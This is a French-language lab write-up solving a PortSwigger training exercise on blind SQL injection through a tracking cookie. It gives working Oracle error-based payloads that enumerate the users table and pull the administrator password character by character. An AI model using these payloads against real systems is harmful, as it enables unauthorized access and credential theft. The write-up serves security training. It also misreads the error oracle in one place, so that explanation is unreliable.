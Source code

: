 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

## Exploit

Request :

```
GET / HTTP/2
Host: 0a48003403e517af82aa433c00af00c8.web-security-academy.net
Cookie: TrackingId=f4T622iCVHc7msiq; session=0s6KA2mflEQqEyUFwo7EnLKcPBJhaG9X
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a48003403e517af82aa433c00af00c8.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
```

Paramètre `TrackingId` vulnérable à l'injection SQL.

`TrackingId=f4T622iCVHc7msiq'` cause une erreur 500.

`TrackingId=f4T622iCVHc7msiq' AND 1=1--` ne cause pas d'erreur.

### Trouver le nom de la table

On remarque qu'avec la requête

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT '' FROM dual)--
```

On obtient pas d'erreur. Or avec un nom de table random, on obtient une erreur.

On peut donc déterminer si une table existe ou non avec ce payload.

Testons la base de données `users` :

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT '' FROM users WHERE ROWNUM=1)--
```

Ici, on utilise `ROWNUM` pour ne récupérer qu'une seule ligne et ne pas avoir une erreur à cause de la concaténation de plusieurs lignes.

La requête ne cause pas d'erreur, donc la base de données `users` existe.

### Chercher l'utilisateur administrateur

On peut maintenant chercher l'utilisateur administrateur.

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT '' FROM users WHERE username='administrator' AND ROWNUM=1)--
```

La requête ne cause pas d'erreur, donc l'utilisateur `administrator` existe.

### Trouver le mot de passe de l'utilisateur administrateur

On peut maintenant chercher le mot de passe de l'utilisateur administrateur.

#### Trouver la taille du mot de passe

Premièrement, on va chercher la taille du mot de passe.

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

Si la requête renvoie une erreur, c'est que la taille du mot de passe n'est pas égale à 1.

On peut donc déterminer la taille du mot de passe avec une boucle sur BurpSuite Intruder et trouver que la taille du mot de passe est de 20 caractères.

#### Trouver le mot de passe

On peut maintenant chercher le mot de passe.

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

En itérant sur les caractères de `a-z` et `0-9`, on trouve que le premier caractère du mot de passe est `3`.

Pour trouver le reste du mot de passe, on incrémente le deuxième paramètre de `SUBSTR` jusqu'à ce qu'on trouve le caractère du mot de passe.

```sql
TrackingId=QyTK2tSZXS7gsjO8' || (SELECT CASE WHEN SUBSTR(password,2,1)='d' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

On peut donc déterminer le mot de passe avec une boucle sur BurpSuite Intruder et trouver que le mot de passe est `3d35gt0l4m4hsc61suzq`.

